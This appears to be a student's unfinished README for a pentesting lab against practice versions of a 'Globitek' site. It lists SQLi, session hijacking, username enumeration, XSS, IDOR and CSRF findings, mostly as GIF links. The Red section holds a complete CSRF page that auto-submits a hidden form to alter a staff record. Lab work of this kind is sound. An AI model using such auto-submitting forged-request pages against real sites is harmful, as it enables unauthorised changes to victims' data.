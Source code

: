 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: SQL Injection

Description:

<img src="http://g.recordit.co/aUAfU46Xqi.gif">


Vulnerability #2: Session Hijacking/Fixation

Description:

<img src="http://g.recordit.co/CXUME0aTWJ.gif">



## Green

Vulnerability #1: Username Enumeration

Description: The bold text that is returned when we use "jmonroe99" as the username and and standard text returned when we use "hacker" as the username tells us as hackers that "jmonroe99" is in the database and "hacker" is not. This is username enumeration vulnerability becuase the system gave information regarding which is a correct and wrong username with the use of bold text. 

<img src="http://g.recordit.co/5wCwKNN9VV.gif">

Vulnerability #2: Cross-Site Scripting

Description:

<img src="http://g.recordit.co/96WgGM2QMX.gif">


## Red

Vulnerability #1: Insecure Direct Object Reference

Description:

<img src="http://g.recordit.co/bB1RVWjluf.gif">

Vulnerability #2: Cross-Site Request Forgery

```
<!doctype html>
<html lang="en">
  <head>
    <title></title>
  </head>
  <body onload="document.ohnoForm.submit()">
  <h1>Some random important content</h1>
  <h2>definitely not a trap.</h2>
    <form name="ohnoForm" action="https://35.184.88.145/red/public/staff/salespeople/show.php?id=3" method="POST" style="display: none;" target="secretIFrame" > <br />
      <input type="hidden" name="csrf_token" value="" /> <br />
      <input type="text" name="first_name" value="Oh" /> <br />
      <input type="text" name="last_name" value="No" /> <br />
      <input type="text" name="phone" value="555-867-5309" /><br />
      <input type="text" name="email" value="bleh@example.org" /><br />
    </form>
    <iframe name="secretIFrame" style="display:none;"></iframe>
  </body>
</html>
```

Description:

<img src="http://g.recordit.co/s81R3gbEvc.gif">


## Notes

Describe any challenges encountered while doing the work


